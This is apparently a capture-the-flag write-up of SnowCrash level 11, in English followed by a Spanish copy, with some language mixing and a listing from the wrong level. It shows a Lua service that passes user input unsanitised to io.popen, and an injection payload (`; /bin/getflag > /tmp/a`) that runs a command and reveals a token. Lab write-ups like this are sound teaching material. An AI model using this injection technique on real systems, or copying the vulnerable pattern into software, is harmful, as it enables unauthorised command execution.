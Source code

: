### LEVEL11 (BONUS)

- We have a Lua script and a token.
    ```bash
    level10@SnowCrash:~$ ls -la
    -rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
    -rw-------  1 flag10  flag10     26 Mar  5  2016 token
    ```

- `cat level11.lua` We have a script that seems to open a connection on `127.0.0.1:5151`.

- We check if it's running.
    ```bash
    level11@SnowCrash:~$ nc -vz 127.0.0.1 5151
    Connection to 127.0.0.1 5151 port [tcp/pcrd] succeeded!
    ```

- We see that it's running.

- We connect.
    ```bash
    level11@SnowCrash:~$ nc 127.0.0.1 5151
    Password: 1234
    rf nope..
    ```

- We investigate the script.

- We see that the script accepts a connection, requests a password, then passes it through the hash function that returns a SHA1 hash.
    ```lua
    1	#!/usr/bin/env lua
    2	local socket = require("socket")
    3	local server = assert(socket.bind("127.0.0.1", 5151))
    [...]
    17	  local client = server:accept()
    18	  client:send("Password: ")
    19	  client:settimeout(60)
    20	  local l, err = client:receive()
    21	  if not err then
    22	      print("trying " .. l)
    23	      local h = hash(l)
    [...]
     5	function hash(pass)
     6	  prog = io.popen("echo "..pass.." | sha1sum", "r")
     7	  data = prog:read("*all")
     8	  prog:close()
     9	
    10	  data = string.sub(data, 1, 40)
    11	
    12	  return data
    13	end
    [...]

- Then it checks with an if statement if the hash returned by the function matches a hash.

- But the if or the else statement only display some strings, it's a rabbit hole.
    ```lua
    [...]
    25	      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
    26	          client:send("Erf nope..\n");
    27	      else
    28	          client:send("Gz you dumb*\n")
    29	      end
    [...]
    ```

- The attack vector lies within the hash(pass) function.
    ```lua
    function hash(pass)
      prog = io.popen("echo "..pass.." | sha1sum", "r")
      data = prog:read("*all")
      prog:close()

      data = string.sub(data, 1, 40)

      return data
    end
    ```

- `io.popen` executes a system command.
    ```lua
    [...]
    prog = io.popen("echo "..pass.." | sha1sum", "r")
    [...]
    ```

- In this case, it would execute an `echo "..pass.." | sha1sum`, where `..pass..` is the string we pass when prompted for the password.

- It's possible to execute arbitrary commands through injection.

- We need it to execute `/bin/getflag > /tmp/a`.

- If we insert `; /bin/getflag > /tmp/a` when prompted for the password, the hash function would become:
    ```lua
    io.popen("echo " ; /bin/getflag > /tmp/a " | sha1sum", "r")
    ```

- Luego podriamos ver el resultado en /tmp/a

- Vamos a ello:
    ```bash
    level11@SnowCrash:~$ nc 127.0.0.1 5151
    Password: ; /bin/getflag > /tmp/a
    Erf nope..
    level11@SnowCrash:~$ cat /tmp/a
    Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
    ```

---

### LEVEL11 (BONUS)

- Tenemos un script en lua y un token
    ```bash
    level10@SnowCrash:~$ ls -la
    -rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
    -rw-------  1 flag10  flag10     26 Mar  5  2016 token
    ```

- `cat level11.lua` tenemos un script que parece abrir una conexion en `127.0.0.1:5151`.

- Comprobamos si está en ejecución
    ```bash
    level11@SnowCrash:~$ nc -vz 127.0.0.1 5151
    Connection to 127.0.0.1 5151 port [tcp/pcrd] succeeded!
    ```

- Vemos que está en funcionamiento

- Nos conectamos:
    ```bash
    level11@SnowCrash:~$ nc 127.0.0.1 5151
    Password: 1234
    rf nope..
    ```

- Investigamos el script

- Vemos que el script acepta una conexion, solicita una password, la pasa por la funcion hash que retorna un sh1 
    ```lua
    1	#!/usr/bin/env lua
    2	local socket = require("socket")
    3	local server = assert(socket.bind("127.0.0.1", 5151))
    [...]
    17	  local client = server:accept()
    18	  client:send("Password: ")
    19	  client:settimeout(60)
    20	  local l, err = client:receive()
    21	  if not err then
    22	      print("trying " .. l)
    23	      local h = hash(l)
    [...]
     5	function hash(pass)
     6	  prog = io.popen("echo "..pass.." | sha1sum", "r")
     7	  data = prog:read("*all")
     8	  prog:close()
     9	
    10	  data = string.sub(data, 1, 40)
    11	
    12	  return data
    13	end
    [...]
    ```

- Luego comprueba con un `if` si el hash que retorna la funcion coincide con un hash

- Pero el if o el else solo muestra unas cadenas, es un rabbit hole
    ```lua
    [...]
    25	      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
    26	          client:send("Erf nope..\n");
    27	      else
    28	          client:send("Gz you dumb*\n")
    29	      end
    [...]
    ```

- El vector de atacque está en la funcion hash(pass)
    ```lua
    function hash(pass)
      prog = io.popen("echo "..pass.." | sha1sum", "r")
      data = prog:read("*all")
      prog:close()

      data = string.sub(data, 1, 40)

      return data
    end
    ```

- `io.popen` ejecuta un comando del sistema
    ```lua
    [...]
    prog = io.popen("echo "..pass.." | sha1sum", "r")
    [...]
    ```

- En este caso se ejecutaría un `echo "..pass.." | sha1sum` siendo `..pass..` la string que le pasamos cuando nos solicita la clave

- Es posible poder ejecutar un comando arbitrario por medio de in inyección

- necesitamos que ejecute `/bin/getflag > /tmp/a`

- Si cando nos pide la password insertamos `; /bin/getflag > /tmp/a` en la funcion hash nos quedaria:
    ```lua
    io.popen("echo " ; /bin/getflag > /tmp/a " | sha1sum", "r")
    ```

- Luego podriamos ver el resultado en /tmp/a

- Vamos a ello:
    ```bash
    level11@SnowCrash:~$ nc 127.0.0.1 5151
    Password: ; /bin/getflag > /tmp/a
    Erf nope..
    level11@SnowCrash:~$ cat /tmp/a
    Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
    ```

